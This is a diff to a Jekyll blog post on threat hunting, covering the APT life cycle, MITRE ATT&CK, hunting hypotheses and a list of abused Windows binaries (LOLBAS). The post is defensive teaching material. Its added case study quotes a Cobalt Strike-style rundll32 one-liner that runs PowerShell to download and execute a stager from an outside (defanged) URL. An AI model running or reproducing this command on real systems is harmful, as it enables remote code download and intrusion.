

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-11-01-Hunting-for-evil.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-11-01-Hunting-for-evil.md

````diff
--- a/_posts/2021-11-01-Hunting-for-evil.md
+++ b/_posts/2021-11-01-Hunting-for-evil.md
@@ -4,15 +4,20 @@ layout: "post"
 ---
 
 __Threat__ __hunting__ - the act of aggressively intercepting, tracking and eliminating cyber adversaries as early as possible in the Cyber Kill Chain.
+
+To prevent, detect and resolve an APT, you must recognize its characteristics.
+Most APTs follow the same basic life cycle of infiltrating a network, expanding access and achieving the goal of the attack, which is most commonly stealing data by extracting it from the network.
+
+- 1 In the first phase, usually referred to "Initial Access", advanced persistent threats often gain access through social engineering techniques. One indication of an APT is a phishing email that selectively targets high-level individuals like senior executives or technology leaders, often using information obtained from other team members that have already been compromised. Email attacks that target specific individuals are called “spear-phishing.”
+- 2 In the second phase, usually referred to "Lateral Movement" attackers insert malware into an organization’s network to move to the second phase, expansion. They move laterally to map the network and gather credentials such as account names and passwords in order to access critical business information.
+Additional entry points are often established to ensure that the attack can continue if a compromised point is discovered and closed.
+- 3 In the third phase, usually referred to "Exfiltration", cybercriminals typically store stolen information in a secure location within the network until enough data has been collected. They then extract, or “exfiltrate” it without detection.
+
 Threats are human. Focused and funded adversaries will not be countered by security boxes on the network alone. Threat hunters are actively searching for threats to prevent or minimize damage before it happens.
 
 
-
-
-
-
-
-This concept can be easily summarized with the Locard's Exchange Principle, which says that: "Every Contact leave a trace"
+The ThreatHunting concept can be easily summarized with the __Locard's__ __Exchange__ __Principle__, which says that: "Every Contact leave a trace". Thinking about
+our attacker this makes perfect sense.
 
 <p align="center">
   <img src="/assets/posts/2021-11-01-Hunting-for-Evil/pyramidofpain.JPG">
@@ -34,7 +39,7 @@ As a baseline the following steps are needed to perform hunting activities:
 - Automate certain tasks – Threat hunting can never be fully automated but semi-automated.
 - Operationalize Threat Hunting – Now, instead of ad-hoc hunting, operationalize your hunting program so that we can perform continuous threat hunting.
 
-Most of the threat hunting platforms uses “Attack MITRE” adversary model. MITRE ATT&CK™ is a globally-accessible knowledge base of adversary tactics and
+Most of the threat hunting platforms uses `“Attack MITRE” adversary model. MITRE ATT&CK™` is a globally-accessible knowledge base of adversary tactics and
 techniques based on real-world observations.
 
 The Mitre team has listed down all those adversary behaviors and attack vectors carries out by an adversary on a victim machine.
@@ -47,7 +52,7 @@ It uses TTP’s Tactics, Techniques and Procedures and maps it to Cyber Kill cha
 Below some basic example of practical threat hunting approach based on hypothesis.
 
 - 1 Word or excel file opening powershell which runs mimikatz command for hash dumping – To check this hypothesis, first look for data, do we have
-proper data to hunt for this hypothesis, then hunt for __winword.exe__ __execl.exe__ process creating powershell.exe, and command line containing (
+proper data to hunt for this hypothesis, then hunt for __winword.exe__ __execl.exe__ process creating __powershell.exe__, and command line containing (
 mimikatz ).
 
 - 2 Downloading files from internet (Other than browser) – Look out for process which are used to download files from internet other than browser,
@@ -62,3 +67,32 @@ __Note:__ Testing
 
 
 ## 2) Basic LOLBAL Hunting with Splunk
+
+- General term used when an attacker abuses built-in binaries and scripts of an OS install or common application installation
+- These techniques may be harder to detect, evade controls, blend in with normal use etc.
+- `LOLBAS` typically provides examples of how these tools are invoked at the command line.
+
+Below some example of typical `LOLBAS` software abused by APT.
+
+- powershell.exe
+- bitsadmin.exe
+- certutil.exe
+- psexec.exe
+- wmic.exe
+- mshta.exe
+- mofcomp.exe
+- cmstp.exe
+- windbg.exe
+- cdb.exe
+- msbuild.exe
+- csc.exe
+- regsvr32.exe
+
+In the case study presented below the threat actor uses `Cobalt Strike` beacon for their post-exploitation activities with a __PowerShell__ stager generated from the Cobalt Strike framework.
+The telemetry shows this attack launched by abusing `rundll32.exe` and the command line invoking __JScript__ code to download a web page and launch the initial __PowerShell__ stager.
+
+```javascript
+rundll32.exe javascript:\\..\\mshtml,RunHTMLApplication ;document.write();new%20ActiveXObject(WScript.Shell).Run(powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('hxxps://stjohnplece.co/lll/webax.js');
+```
+
+The first PowerShell stage, webax.js decompresses the second-stage PowerShell code that loads the first shellcode stage into memory and creates a specific request to download what seems like a standard jQuery library.
````
